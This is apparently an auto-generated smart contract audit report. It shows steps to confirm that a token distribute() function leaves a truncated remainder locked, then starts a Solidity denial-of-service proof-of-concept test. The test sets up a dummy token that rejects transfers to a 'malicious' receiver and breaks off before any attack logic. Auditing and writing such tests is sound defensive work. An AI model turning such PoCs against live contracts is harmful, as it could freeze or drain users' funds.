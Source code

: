 *Execution Steps:*

- Step 1: Execute the distribute() function to show that each participant receives the integer-divided amount (e.g., 3 tokens each) and a remainder is left undistributed.
- Step 2: Demonstrate that the residual tokens remain locked in the contract with no mechanism to later withdraw or distribute the remainder.

*Validation Steps:*

- Step 1: Explain that the vulnerability is a business logic flaw resulting from integer division truncation, leaving residual funds unclaimed, which might lead to dissatisfaction or inefficiency in token distribution.
- Step 2: Show how adjusting the distribution logic (e.g., keeping track of the remainder and providing a function to claim residual tokens or using a different allocation method) can resolve the issue.

---

## Proof of Concept Exploits

### PoC #1: denial_of_service

**File:** /Users/advait/Desktop/NTU/fyp-fr/exploit/src/test/PoC_unknown_1742490735.sol

**Execution:** ✅ SUCCESS

**Exploit Code:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./basetest.sol";

/**
 * @title IERC20
 * @dev Minimal ERC20 interface for testing purposes.
 */
interface IERC20 {
    function transfer(address recipient, uint256 amount) external returns (bool);
    function balanceOf(address account) external view returns (uint256);
}

/**
 * @title DummyToken
 * @dev A simple ERC20-like token for demonstration. It mints tokens to addresses and simulates a malicious receiver.
 * The transfer() function will revert if the recipient is set as malicious.
 */
contract DummyToken is IERC20 {
    mapping(address => uint256) public balances;
    address public malicious; // The designated malicious contract that rejects transfers

    /**
     * @dev Mints tokens to the given address.
     */
    function mint(address to, uint256 amount) public {
        balances[to] += amount;
    }
    
    /**
     * @dev Sets the malicious contract address.
     */
    function setMalicious(address _malicious) public {
        malicious = _malicious;
    }
```